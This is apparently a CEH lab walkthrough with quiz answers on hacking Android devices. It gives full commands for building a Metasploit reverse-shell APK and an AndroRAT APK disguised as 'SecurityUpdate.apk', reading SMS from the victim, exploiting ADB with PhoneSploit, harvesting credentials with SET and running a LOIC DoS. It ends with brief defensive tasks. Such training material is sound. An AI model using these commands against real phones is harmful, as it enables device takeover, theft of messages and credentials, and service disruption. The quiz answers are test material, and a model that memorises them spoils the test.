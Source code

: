 # Tasks

## Hack Android Devices

### Hack an Android Device by Creating Binary Payloads

Use Metasploit to create a binary payload in Parrot Security to hack an Android device. Enter the computer name of the target android system.

localhost



#### Create Binary Payload

```
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk
```

#### Create a Listener

```
msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST 10.10.1.13

show options

exploit -j -z
```



{% hint style="info" %}
Install & Execute the Malicious apk in the Android Device
{% endhint %}

#### Interact with the Android Device

```
sessions -i 1

sysinfo
```



### Harvest User's Credentials using the Social-Engineer Toolkit

Sniff user credentials on the Android platform by using the credential harvester attack method of the Social-Engineer Toolkit (SET). Use the URL http://certifiedhacker.com/Online%20Booking/index.htm for cloning. Enter the port number on which the SET credential harvester attack works

80



### Launch a DoS Attack on a Target machine using LOIC on the Android Mobile

Use LOIC on the Android mobile platform to launch a DoS attack on a target machine (Windows Server 2019). Use the Wireshark tool to capture the traffic at the target machine. Enter the Destination port number of the packet sent from the Android machine to the target machine. Note: LOIC is available at CEH-Tools/CEHv12 Module 17 Hacking Mobile Platforms/Android Hacking Tools/Low Orbit Ion Cannon (LOIC).

80



### Exploit the Android Platform through ADB using PhoneSploit

Use the PhoneSploit tool to exploit the Android mobile platform through ADB. Enter the name of the jpeg file in the “Download” folder.

images.jpeg

```
python3 phonesploit.py

3

10.10.1.14

4

pwd
```



### Hack an Android Device by Creating APK File using AndroRAT

Use AndroRAT to create an APK file to hack an Android device. Enter the option that is used to specify the local IP address while creating an APK file using androRAT.

\-i

```
python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk
```



Use AndroRAT to create an APK file to hack an Android device. What is the command used to obtain a file containing SMSes from the inbox of a victim device using androRAT.

getSMS

#### Start a Listener&#x20;

```
python3 androRAT.py --shell -i 0.0.0.0 -p 4444
```

{% hint style="info" %}
Install and Execute the SecurityUpdate.apk in the android device
{% endhint %}

#### Interact with the Android Device

```
help

deviceInfo

getSMS inbox

getMACAddress

exit
```



## Secure Android Devices

### Analyze a Malicious App using Online Android Analyzers

Use Metasploit to create a binary payload in Parrot Security to hack an Android device. Use the Sixo Online APK Analyzer tool (https://www.sisik.eu/apk-tool) to analyze the binary payload. What is the package name for the payload?

com.metasploit.stage

{% embed url="https://www.sisik.eu/apk-tool" %}

### Secure Android Devices from Malicious Apps using Malwarebytes Security

Use Metasploit to create a binary payload in Parrot Security and hack an Android device. Then, scan the Android device for malicious applications using the Malwarebytes Security mobile application. On which screen does Malwarebytes Security dispays the deleted malicious files?

Scanning history
